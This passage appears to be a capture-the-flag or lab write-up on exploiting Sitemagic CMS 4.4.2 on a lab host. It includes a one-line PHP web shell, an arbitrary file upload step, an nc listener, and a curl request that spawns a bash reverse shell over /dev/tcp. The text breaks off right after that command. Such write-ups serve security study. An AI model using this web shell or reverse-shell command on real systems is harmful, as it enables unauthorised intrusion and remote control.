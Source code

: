 When I go to the login page `http://kb.vuln/index.php?SMExt=SMLogin`, and I use the credentials `admin:jesse`, then I confirm that the credentials work. When I write the file called `ws.php` with the following payload:
```shell
$ echo "<?php system(\$_GET['cmd']); ?>" > ws.php
```
And I follow the steps found on the exploit-db page, and I upload the payload web shell:

![evidence](./static/07-web-shell.png)

Then I can run the `bash` code:

![evidence](./static/08-exploit.png)

And I can confirm that there is an arbitrary file upload vulenaribity.

## Exploitation
Setuid permission on systemctl allows starting services as the `root` user.

Given I can access `http://kb.vuln`, and it runs `Sitemagic CMS 4.4.2`, and I have the admin credentials `admin:jesse`, and there is an arbitrary file upload vulenaribily, and that allows me to upload PHP code, and inject `bash` commands with the PHP function `system()`, then I can try to perform a reverse shell. When I open a listener with the `nc` command:
```shell
$ nc -lvnp 1234
```
And I run:
```shell
$ curl "http://kb.vuln/files/images/ws.php?cmd=
> bash%20-c%20'bash%20-i%20>%26%20/dev/tcp/192.168.2.31/1234%200>%261'"
```
Then it works:
